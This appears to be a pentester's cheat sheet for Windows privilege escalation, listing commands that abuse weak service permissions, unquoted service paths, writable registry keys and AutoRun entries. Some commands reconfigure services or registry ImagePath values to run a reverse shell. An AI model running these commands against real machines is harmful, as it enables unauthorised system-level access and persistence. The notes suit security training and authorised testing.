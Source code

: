 ## Services

	1- first of all we can use this command to take a look at the service: 
		
		"cmd.exe /c sc qc <serviceName>"



	2- Insecure Service Permissions: try to set binpath in target service-configuration(note: changing binaryPath):
		
		+ sc config <serviceName> binpath=<Path-to-reverseShell>
		
		+ check for this ability: .\accesschk.exe /accepteula -uwcqv <username> <service-name>


	3- Unquoted path file: try to create reverse_shell filename similar to folder-names. in case that you have write permissions

		+ check if we can write to where we want: .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"



	4- Weak Registry Permissions:   			

		+ check if we can write to service's registry: .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<Service-name>

		+ overwrite binaryPath in registry: reg add HKLM\SYSTEM\CurrentControlSet\services\<Service-name> /v ImagePath /t REG_EXPAND_SZ /d <reverse-shell path> /f

					
	5- permission to write on actual service's executable file.

		+ check: .\accesschk.exe /accepteula -quvw "C:\Program Files\<path-to-executable-file-for-servcie>.exe"


## Registry


	1- AutoRun applications Registry: 

			NOTE: look for registry-key for autoRun applications. then find the executable location.

			+ the following registry-key tell the system to run this executable every time that user logs on: 
			
				+ Registry:  	HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
						HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
			+ Query: 
				+ reg query <Registry name>
					
			+ check permissions: .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"




	2- Always Install Elevated Registry:

		   NOTE: if the values for the following registries are '1', then a low privileged user can install programs with administrator privileges.
